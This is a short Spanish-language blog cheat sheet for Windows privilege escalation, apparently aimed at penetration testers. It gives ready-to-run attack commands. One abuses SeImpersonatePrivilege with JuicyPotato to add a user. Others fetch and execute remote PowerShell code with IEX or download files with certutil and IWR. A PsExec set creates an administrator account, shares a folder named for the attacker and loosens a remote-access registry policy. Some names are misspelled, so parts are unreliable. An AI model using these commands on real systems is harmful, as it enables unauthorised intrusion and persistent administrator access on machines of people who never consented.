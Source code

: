 ```yaml
---
layout: post
title: Windows Privesc
tags: [windows,CheetSheat]
description: "Windows Privesc"
---
```



## Grupos y permisos

### Accoutn operators

Otorga privilegios limitados de creación de cuentas a un usuario. Básicamente, esto puede crear y administrar usuarios y grupos en el dominio, incluida su propia membresía y la del grupo de Operadores de servidor.

[https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-accountoperators)

### SeImpersonatePrivilege

- juicyPotato
- PrintSpoofer

```
JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user TEST TEST123 /add"
```

## Transferencia de archivos

```
powershell IEX(New-Object Net.WebClient).downloadString('<http://file>')
certutil.exe -f -urlcache -split <http://file>
IWR -uri <http://file> -OutFile <file>
```

## Pwned Psexec

```
cmd /c net user USERX PASSWORD /add
cmd /c net localgroup Administrators USERX /add
cmd /c net share attacker_folder=C:\Windows\Temp GRANT:Administrators,FULL
cmd /c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountFilterPolicy /t REG_DWORD /d 1 /f
```
